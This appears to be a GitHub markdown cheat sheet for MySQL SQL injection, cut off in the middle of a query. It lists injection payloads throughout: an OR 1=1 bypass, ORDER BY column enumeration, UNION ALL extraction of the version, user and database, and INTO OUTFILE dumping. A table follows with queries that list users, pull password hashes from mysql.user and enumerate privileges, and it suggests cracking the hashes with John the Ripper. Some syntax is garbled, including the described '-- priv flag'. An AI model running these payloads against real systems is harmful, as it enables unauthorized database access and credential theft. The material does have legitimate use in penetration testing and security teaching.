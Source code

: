 ----
# MySql DataBase Injection
---
show a column using a where statement
` select * from users where id="1";`

show a column using a where statement that is incorrect
` select * from users where id="-1";`

show a certain column using the where statement that is incorrect and bypassing it with an OR statement
`select * from users where id="-1" or 1=1;`

Use an order by to enumerate the columns in the database
`select * from users order by 1,2,3,4,5,6,7,8;`

use an union all to select new statement
`select * from users where id union all select version(), user(), database(),4,5;`

use INTO OUTFILE to redirect the data to a file
`select * from users INTO OUTFILE '/tmp/database.txt';`
----

## MYSQL DATABASE Injection Cheat Sheet
---

There are some of the queries below that only the `admin` user can run; in those situations use the `-- priv` flag from mysql

<tbody>
<tr>
<td>Version</td>
<td>SELECT @@version</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; #comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user();<br>
SELECT system_user();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT user FROM mysql.user; — priv</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT host, user, password FROM mysql.user; — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://www.openwall.com/john/">John the Ripper</a> will crack MySQL password hashes.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee,